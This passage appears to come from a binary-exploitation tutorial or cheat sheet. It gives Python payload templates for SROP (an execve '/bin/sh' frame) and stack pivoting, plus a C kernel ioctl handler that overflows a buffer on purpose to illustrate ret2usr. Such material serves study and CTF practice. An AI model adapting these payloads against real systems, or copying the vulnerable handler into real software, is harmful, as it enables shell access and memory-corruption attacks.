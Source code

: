 ### SROP (Sigreturn-Oriented Programming)

Exploits `sigreturn` syscall to control all registers.

```python
def srop_exploit():
    # Build sigreturn frame
    frame = SigreturnFrame()
    frame.rax = 59         # execve syscall
    frame.rdi = binsh_addr # "/bin/sh" address
    frame.rsi = 0          # argv
    frame.rdx = 0          # envp
    frame.rip = syscall_gadget
    
    payload = b"A" * offset
    payload += p64(sigreturn_gadget)
    payload += bytes(frame)
    
    return payload
```

### Stack Pivoting

Moves stack pointer to controlled memory region.

```python
def stack_pivot():
    # Find stack pivot gadget
    pivot_gadget = 0x401890  # mov rsp, rdi; ret
    
    payload = b"A" * offset
    payload += p64(pop_rdi_ret)
    payload += p64(fake_stack_addr)
    payload += p64(pivot_gadget)
    
    return payload
```

## Kernel Exploitation

### ret2usr

Returns from kernel space to user space to execute shellcode.

```c
// Kernel vulnerability example
static long device_ioctl(struct file *file, unsigned int cmd, unsigned long arg) {
    char buffer[256];
    if (copy_from_user(buffer, (void *)arg, 1024)) {  // Buffer overflow!
        return -EFAULT;
    }
    return 0;
}
```
